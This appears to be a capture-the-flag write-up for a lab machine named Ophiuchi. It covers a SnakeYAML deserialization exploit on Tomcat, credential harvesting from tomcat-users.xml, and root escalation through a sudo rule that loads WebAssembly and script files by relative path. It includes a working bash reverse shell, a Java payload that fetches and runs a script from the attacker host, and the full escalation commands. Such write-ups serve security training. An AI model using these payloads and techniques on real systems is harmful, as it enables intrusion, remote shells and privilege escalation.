

```
$sudo nmap -sS -sV 10.129.138.106
...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    Apache Tomcat 9.0.38
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold:

So there is a WebApp on http://ophiuchi.htb:8080/ giving us a yaml-parser:


Searching for an exploit we found:
https://github.com/artsploit/yaml-payload

First we need to set up a shell.sh locally like:
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.52/4242 0>&1
```

Inside the AwesomeScriptEngineFactory.java we used following code to execute the shell on the target machine:
```Java
[...]
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("wget http://10.10.14.52:1234/shell.sh -O /tmp/shell.sh");
            Runtime.getRuntime().exec("bash /tmp/shell.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
[...]
```
Now we need to compile the code with:
```bash
javac src/artsploit/AwesomeScriptEngineFactory.java
```
```bash
jar -cvf yaml-payload.jar -C src/ .
```

Just use following code in the WebApp (but don't forget to set up a http-server for the `shell.sh` and a nc listener):
```js
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.52:1234/yaml-payload.jar"]
  ]]
]
```

Now we are logged in as user tomcat@ophiuchi.

## User:

To search for credentials we just used the "standard john cred grepper":
```bash
grep -rn 'password' /opt/tomcat/*
```
Inside the output you can find the creds `admin:whythereisalimit`:
```
conf/tomcat-users.xml:22:<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
```
Using `su admin` with password `whythereisalimit` we can switch to user admin.

## Root

First thing we do is `sudo -l` which gives us:
```
(ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

This tells us to get a closer look at the `index.go`:

```go
cat /opt/wasm-functions/index.go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}


```

You can see that for the `main.wasm` and `deploy.sh` only relative path' are used.
We can exloit this by using our own `main.wasm` and `deploy.sh` in another directory but first we need to inspect these files further.

We found a [tool](https://webassembly.github.io/wabt/demo/wasm2wat/) to get a closer look at the `main.wasm` from `/opt/wasm-functions/`:
```
(module
  (type $t0 (func (result i32)))
  (func $info (export "info") (type $t0) (result i32)
    (i32.const 0))
  (table $T0 1 1 funcref)
  (memory $memory (export "memory") 16)
  (global $g0 (mut i32) (i32.const 1048576))
  (global $__data_end (export "__data_end") i32 (i32.const 1048576))
  (global $__heap_base (export "__heap_base") i32 (i32.const 1048576)))
```
This as a readable `.wat`-file. Here `i32.const` is set to 0, but we want it to be 1 so `deploy.sh`gets executed. So just exchange that 0 with a 1.
Therefore we can use [another tool](https://webassembly.github.io/wabt/demo/wat2wasm/) to create a new `.wasm` from the `.wat`.

Now we still need to set up a new `deploy.sh` like:

```
#!/bin/bash
cat /root/root.txt
```

With these new files `main.wasm` and `deploy.sh` in the current dictory we can use:
```
sudo /usr/bin/go run /opt/wasm-functions/index.go
```
and our own `deploy.sh` gets executed with root permissions. Obviously you can put a shell in there instead of the `cat` if you like.
